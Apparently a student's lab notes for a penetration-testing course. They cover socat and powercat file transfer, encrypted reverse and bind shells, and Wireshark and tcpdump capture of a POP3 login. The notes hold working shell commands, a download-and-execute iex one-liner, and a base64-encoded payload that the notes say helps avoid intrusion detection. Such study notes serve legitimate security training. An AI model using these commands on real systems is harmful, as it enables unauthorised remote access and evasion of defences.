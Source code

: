 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
# !!SKIPPED QUESTIONS RETURN HERE!!
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?


# 4.3.9 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **PowerShell** and **powercat** to create a reverse shell from your Windows system to your Kali machine.
run dot-sourcing script
`. .\powercat.ps1`
or use iex cmdlet
`iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`
start listener on local machine
`nc -lnvp 9999`
use powershell on remote machine to connect to listener
`powercat -c <IP> -p <PORT> -e cmd.exe`
![[Pasted image 20220218171345.png]]
![[Pasted image 20220218171401.png]]
2.  Use **PowerShell** and **powercat** to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use **powercat** to connect to it locally?
create bind shell in powershell with powercat
`powercat -l -p 443 -e cmd.exe`
connect with nc on local machine
`nc -nv <IP> <PORT>`
to connect locally using powercat simply run powercat with -c flag in seperate terminal
`powercat -c 127.0.0.1 -p <PORT> `

3.  Use **powercat** to generate an encoded payload and then have it executed through **powershell**. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.
generate powercat payload
`powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1`
or encade in base64 to avoid IDS
`powercat -c <IP> -p <PORT> -e cmd.exe -ge > encoded_reverseshell.ps1`
start listener on local machine
`nc -lnvp <PORT>`
start reverse shell by running .ps1 file
`.\reversehell.ps1`
or if encoded, running posershell.exe with -E flag and encoded payload
`powershell.exe -E <ENCODED_PAYLOAD_HERE>`
###### easy copy/paste in powershell
`Get-Content C:\Users\user1\.ssh\id_ed25519.pub | Set-Clipboard`
![[Pasted image 20220218173555.png]]
![[Pasted image 20220218173813.png]]

# exercises 4.4.6
#### Exercises

_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use Wireshark to capture network activity while attempting to connect to 10.11.1.217 on port 110 using Netcat, and then attempt to log into it.
setup filter to only capture traffic on port 110
connect to pop server via nc
`nc -nv <IP> 110`
attempt to log into pop server 
`USER student`
`PASS lab`
![[Pasted image 20220218183021.png]]
2.  Read and understand the output. Where is the three-way handshake happening? Where is the connection closed?
Frame 1, 2, and 3 contain the three-way handshake
![[Pasted image 20220218183223.png]]
frame 13 contains RST, ack which is used to reset/shutdown a connection
![[Pasted image 20220218183755.png]]

3.  Follow the TCP stream to read the login attempt.
![[Pasted image 20220218183815.png]]

4.  Use the display filter to only monitor traffic on port 110.
this can be done one the startup page via the capture filter
![[Pasted image 20220218183859.png]]
or with the display filter once the capture has begun
![[Pasted image 20220218184037.png]]

5.  Run a new session, this time using the capture filter to only collect traffic on port 110.
see above section for capture filtering

# exercises 4.5.3
_(To be performed on your own Kali machine - Reporting is required for these exercises)_

1.  Use tcpdump to recreate the Wireshark exercise of capturing traffic on port 110.


2.  Use the -X flag to view the content of the packet. If data is truncated, investigate how the -s flag might help.


3.  Find all 'SYN', 'ACK', and 'RST' packets in the password_cracking_filtered.pcap file.


4.  An alternative syntax is available in tcpdump where you can use a more user-friendly filter to display only ACK and PSH packets. Explore this syntax in the tcpdump manual by searching for "tcpflags". Come up with an equivalent display filter using this syntax to filter ACK and PSH packets.